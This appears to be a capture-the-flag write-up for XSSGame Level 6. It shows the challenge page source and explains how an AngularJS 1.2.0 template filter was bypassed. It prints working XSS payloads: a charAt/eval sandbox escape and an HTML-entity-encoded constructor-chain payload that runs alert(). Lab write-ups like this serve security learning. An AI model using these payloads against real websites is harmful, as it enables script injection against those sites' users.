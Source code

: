 # **XSSGame Level 6**

![](https://i.imgur.com/awndSth.png)

```shell=
<!DOCTYPE html>
<html>
  <head>
    <title>Foogle</title>
    <style>
      body {
        background-color: #ffffff;
      }
    </style>
    <script src="/static/js/js_frame.js"></script>
    <script src="//ajax.googleapis.com/ajax/libs/angularjs/1.2.0/angular.min.js"></script>
    <script>
      angular.module('myApp', [])
      .controller('myController', ['$scope', function ($scope) {
        $scope.query = "";
        $scope.alert = window.alert;
      }]);
    </script>
  </head>
  <body ng-app="myApp">
    <div ng-controller="myController">
      <center>
        <img src="/static/img/foogle.png">
        <br>
        <form action="/f/rWKWwJGnAeyi/" method="POST">
          <input id="demo2-query" name="query" maxlength="140" ng-model="query" placeholder="Enter query here...">
          <input id="demo2-button" type="submit" value="Search">
        </form>
        <p>You have {{140 - query.length}} characters left.</p>

        
        
      </center>
    </div>
  </body>
</html>
```

No more form attributes this time.

Then we simply try `{{alert()}}`

`<p ng-non-bindable>Sorry, no results were found for <b>{{alert()}}</b>.</p>`

`<p ng-non-bindable>` means this output will not be compiled by Angular.

Then I try `?query=alert()}}` in URL, I got :

```
<form action="/f/rWKWwJGnAeyi/?query=alert()}}" method="POST">
    <input id="demo2-query" name="query" maxlength="140" ng-model="query" placeholder="Enter query here...">
    <input id="demo2-button" type="submit" value="Search">
</form>
```

You'll see in Search Bar, it's `POST`, however, reflective XSS will not work with `ng-non-bindable` tag, and in `GET`, the query will show in form's `action` attribute.

Cause to the challenges name : `Angular 2`, let's try to dif() two source code, then we got something suspicious:


```shell=
#Angular
<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.5.8/angular.min.js"></script>
#Angular 2
<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.2.0/angular.min.js"></script>
```

Quickly search `angularjs 1.2.0 xss`, then you'll see the XSS payload like following:

```shell=
?query={{'a'.constructor.prototype.charAt=[].join;
eval('x=1} } };alert(1)//');}}
```

Well, something still wrong though.

```shell=
<form action="/f/rWKWwJGnAeyi/?query='a'.constructor.prototype.charAt=[].join; eval('x=1} } };alert(1)//');}}" method="POST">
```
`{{` seems been replaced as `NULL`, let's find the way to bypass it like URL encoded?

Let's replace `{` to `&lcub`.

```shell=
?query=&lcub;&lcub;a='constructor';b=&lcub;&rcub;;a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert()')()}}
```

![](https://i.imgur.com/YXWRMu5.png)
